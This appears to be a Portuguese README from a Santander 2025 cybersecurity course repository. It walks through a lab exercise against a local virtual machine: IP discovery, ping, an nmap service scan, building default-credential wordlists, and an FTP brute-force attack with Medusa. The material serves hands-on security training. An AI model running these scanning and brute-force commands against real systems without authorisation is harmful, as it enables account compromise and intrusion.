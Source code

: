 # CiberSeguranca-Santander-2025
Este repositório reúne materiais, projetos e soluções desenvolvidos para o programa de Cibersegurança do Santander em 2025. O foco é fortalecer a proteção digital da instituição por meio de práticas avançadas de segurança da informação, análise de vulnerabilidades, resposta a incidentes e conformidade com normas internacionais.

---

📘 [Preparando o ambiente controlado](1.ambiente.md)

--- 
1° - Rastreamento de IP: ifconfig [máquina alvo]
      Retorno: 192.168.56.101
      
2° - Teste de conexão: ping -c 3 192.168.56.101
      
3° - Varredura da rede: nmap -sV -p 21,22,80,445,139 192.168.56.101

4° - Teste de conexão ftp: ftp 192.168.56.101

5° - Preparo para ataque com a Medusa
    - Criação da wordlist de usuarios: echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt
    - Criação da wordlist de senhas: echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

6° - Ataque: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6

7° - Testa a conexão: ftp 192.168.56.101
